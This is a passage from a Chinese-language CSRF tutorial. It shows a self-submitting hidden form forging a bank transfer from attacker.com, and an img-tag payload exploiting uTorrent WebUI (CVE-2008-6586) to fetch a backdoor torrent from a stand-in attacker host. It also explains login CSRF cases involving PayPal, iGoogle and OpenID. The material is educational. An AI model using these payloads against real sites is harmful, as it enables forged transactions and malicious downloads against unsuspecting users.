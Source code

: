 ```html
www.attacker.com                          Browser                       wwww.bank.com
     |                GET /blog HTTP/1.1    |                                      |
     |<—————————————————————————————————————|                                      |
     |                                      |                                      |
 <form action=https://www.bank.com/transfer |                                      |
  method=POST target=invisibleframe>        |                                      |
  <input name=recipient value=attacker>     |                                      |
  <input name=amount value=$100> </form>    |                                      |
 <script>document.forms[0].submit()</script>|                                      |
     |————————————————————————————————————> |                                      |
     |                                      | POST /transfer HTTP/1.1              |
     |                                      | Referer: http://www.attacker.com/blog|
     |                                      | Recipient=attacker&amount=$100       |
     |                                      | Cookie: SessionID=523FA4cd2E         |
     |                                      |————————————————————————————————————> |
     |                                      |                                      |
     |                                      |                 HTTP/1.1 200 OK      |
     |                                      |<—————————————————————————————————————|
```

### 5.2 uTorrent CSRF漏洞

- [uTorrent](https://en.wikipedia.org/wiki/ΜTorrent) 是仅次于迅雷的最流行的BT客户端
- WebUI是一个插件，允许用户从一台计算机的浏览器上通过网络控制另一台计算机上的uTorrent，可通过`localhost:8080 `访问本机上的WebUI服务
- [CVE-2008-6586](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-6586)：在WebUI 0.315中gui/index.php存在CSRF漏洞，攻击者可以强制下载任意torrent文件，或者更改管理员账号

攻击者将恶意的HTML图片元素注入到论坛或者发送垃圾邮件，例如：

```html
<img src="http://localhost:8080/gui/?action=add-url&s=http://evil.example.com/backdoor.torrent">
```

当浏览器访问这些网页时就会自动打开链接，向uTorrent的WebUI发送携带cookie的请求。

### 5.3 Login CSRF 

参考资料：[Robust Defenses for Cross-Site Request Forgery (ACM CCS 2008)](http://www.adambarth.com/papers/2008/barth-jackson-mitchell-b.pdf)

在Login CSRF中，攻击者使用受害者浏览器来伪造一个指向目标网站登录页面的请求，携带攻击者的用户名和密码；受害者会以攻击者的身份登录到目标网站上，而浏览器中存储攻击者登录的cookie。

- 窃取搜索历史：受害者受到Login CSRF攻击，以攻击者身份登录Yahoo!或Google；以攻击者身份使用搜索引擎，搜索历史被记录在攻击者账户里
- PayPal：攻击者创建一个使用PayPal付款的恶意商家网站；受害者购买商品时被重定向到PayPal来登录账号；商家偷偷地让受害者登录到攻击者的账户；为了付款，受害者把信用卡信息录入了攻击者的账户
- iGoogle：iGoogle允许用户定制Google主页上的小插件；攻击者制作一个恶意插件并安装到自己的iGoogle主页；受害者以攻击者身份登录到攻击者的iGoogle主页，并运行恶意插件；该插件以`https://www.google.com`为源来运行，可以盗取受害者的口令
- [OpenID](https://en.wikipedia.org/wiki/OpenID)是一个开放认证平台，用户（User）可以从一个OpenID提供商（IDP）获得一个数字身份（ID），来登录支持OpenID的网站（RP，Relying Party）。由于缺乏将OpenID会话与用户浏览器绑定的机制，攻击者可以令用户浏览器已攻击者身份来初始化一个会话。
	1. 攻击者首先访问一个RP，并启动与IDP的认证过程
	- 在OpenID协议最后一步，IDP将攻击者浏览器重定向到RP的`return_to` URL
	- 但攻击者并不访问，而是令用户的浏览器来访问`return_to` URL
	- RP完成OpenID协议，在用户的浏览器中存储会话cookie，用户已经作为攻击者登录了RP
